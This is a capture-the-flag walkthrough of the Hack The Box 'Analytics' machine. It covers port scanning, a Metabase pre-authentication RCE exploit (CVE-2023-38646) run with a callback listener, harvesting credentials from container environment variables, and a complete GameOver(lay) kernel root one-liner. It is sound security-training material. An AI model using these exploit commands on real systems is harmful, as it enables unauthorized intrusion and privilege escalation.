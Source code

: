```yaml
---
title: Analytics
published: true
layout: post
---
```


<br />

---------------
Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication Remote Code Execution ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to GameOverlay, which is leveraged to obtain root privileges.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/nPaZz_MxZG0?si=NQM9t_0XH6Z5GIgb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.233 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Analytics/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.233 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Analytics/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx 1.18.0**

<br />

We can also see a **hostname**, so we will add it to our ***/etc/hosts* file**:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee --append /etc/hosts
```

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.233 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine's foothold is very **easy and straightforward**, however we will have to make **assumptions**.

<br />

Initial enumeration of the website revealed a login panel, which is located under a subdomain, ***data.analytical.htb***, we will add it to our /etc/hosts file:
```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee --append /etc/hosts
```

<br />

By visiting the login website, we will discover a Metabase instance:

![](/assets/Analytics/3.png)
<br />
<br />
<br />

After trying some NoSQL injection, I **searched for an exploit** for this software, and find one that works:
```bash
searchsploit Metabase
```
![](/assets/Analytics/4.png)
<br />
<br />
<br />

This exploit leverages **CVE-2023-38646**, which essentially require  two HTTP requests to be exploited:
+ /api/session/properties
+ /api/setup/validate

<br />

The first one allows us to get a **setup token**, and the second one sends  a **payload in JSON format that executes commands**.

<br />

We just have to execute it to get a **webshell**:
```bash
python3 51797.py -u http://data.analytical.htb --lhost 10.10.16.10 --lport 4444 --sport 55555
```
![](/assets/Analytics/5.png)
<br />
<br />
<br />

However, after some enumeration, we can see that **we are in a container**, this is due to the existence of a ***/.dockerenv* file** and the **hostname**:

```bash
hostname
ls -la /.dockerenv
```
![](/assets/Analytics/6.png)
<br />
<br />
<br />

Following with our enumeration, we can discover some **credentials** in the **environmental variables**:
```bash
printenv
```
![](/assets/Analytics/7.png)
<br />
<br />
<br />

With this in mind an no *metalytics* user in this container, we can try to connect through **SSH** and **print the user flag**:
```bash
ssh metalytics@analytical.htb
```
![](/assets/Analytics/8.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation is simple, but we have to take a deep look into **version numbers**.

<br />

Enumerating Linux we discovered the kernel version:

```bash
uname -r
```

![](/assets/Analytics/9.png)
<br />
<br />
<br />

Searching for this version number revealed an [exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) created by g1vi called **Game Over(lay)** that leverages **CVE-2023-2640** and **CVE-2023-32629**:

![](/assets/Analytics/10.png)
<br />
<br />
<br />

This exploit is actually a **one-liner** that we can execute to **gain root privileges** and **print the flag**:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
![](/assets/Analytics/11.png)
<br />
<br />
<br />
